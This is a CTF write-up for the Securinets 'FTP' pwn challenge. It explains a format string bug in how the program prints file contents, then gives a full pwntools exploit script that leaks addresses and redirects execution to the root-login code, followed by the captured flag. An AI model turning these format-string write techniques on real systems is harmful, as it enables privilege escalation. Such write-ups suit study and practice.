 # FTP

## Challenge

We are given a 32-bit binary with full mitigations.

To use the program, we first login as a user.
Once logged in, we have access to the following commands:

```
? : help
dir : list files
cat filename : cat file
put text : create a new file and write text inside it
uid : get uid
su : change user
```

## Solution

If we disassemble the program, we find that there are 2 possible users: `anonymous` and `root`.
`anonymous` does not require a password, but cannot read any file except `note`, which is the file written by the `put text` command.
`root` requires a password which is stored as a hardcoded MD5 hash.
No results were found when looking up the hash in multiple databases.

The anonymous user has very limited capabilities, as it can only read and write to the `note` file.
However, there is a format string vulnerability in how the program prints the contents of files.
We can exploit this by writing a format string payload into `note`, then reading the file.
This allows us to read and write arbitrary values from memory.

I started by leaking the binary address and a stack address.
Using the linked list of saved base pointers, I overwrote the return address of `printf` with the address of the code that authenticated the user as `root`.

Once authenticated, we had the privileges necessary to read the flag file.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 20.216.39.14 --port 1234 ftp
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('ftp')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '20.216.39.14'
port = int(args.PORT or 1234)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

signature = b"Green-Avocado"

io = start()

io.sendlineafter(b": ", b"anonymous")
io.sendlineafter(b": ", b"")

io.sendlineafter(b"ftp> ", b"put " + signature + b"%63$p")
io.sendlineafter(b"ftp> ", b"cat note")
io.recvuntil(signature)
exe.address = int(io.recvuntil(b'\n', drop=True), 0) - 0x00001c20
io.info("EXE: " + hex(exe.address))

io.sendlineafter(b"ftp> ", b"put " + signature + b"%126$p")
io.sendlineafter(b"ftp> ", b"cat note")
io.recvuntil(signature)
rbp = int(io.recvuntil(b'\n', drop=True), 0)
io.info("RBP: " + hex(rbp))

write = (rbp + (0xffffd0cc-0xffffd2f8) - len(signature)) % 0x10000

io.sendlineafter(b"ftp> ", b"put " + signature + "%{}c%62$hn".format(write).encode())
io.sendlineafter(b"ftp> ", b"cat note")
if signature not in io.recvline():
    io.error("SIGNATURE NOT FOUND")

io.sendlineafter(b"ftp> ", b"put " + signature + b"%126$p")
io.sendlineafter(b"ftp> ", b"cat note")
io.recvuntil(signature)
io.info("RBP: " + hex(int(io.recvuntil(b'\n', drop=True), 0)))

write = ((exe.address + 0x00001bd4) - len(signature)) % 0x10000

io.sendlineafter(b"ftp> ", b"put " + signature + "%{}c%126$hn".format(write).encode())
io.sendlineafter(b"ftp> ", b"cat note")
if signature not in io.recvline():
    io.error("SIGNATURE NOT FOUND")

io.sendlineafter(b"ftp> ", b"put Pwned by " +  signature)
io.sendlineafter(b"ftp> ", b"cat flag.txt")

io.interactive()
```

## Flag

```
Securinets{b554948c19c146bb98c8567b97bd9e111c9a1a3be03a94f1}
```
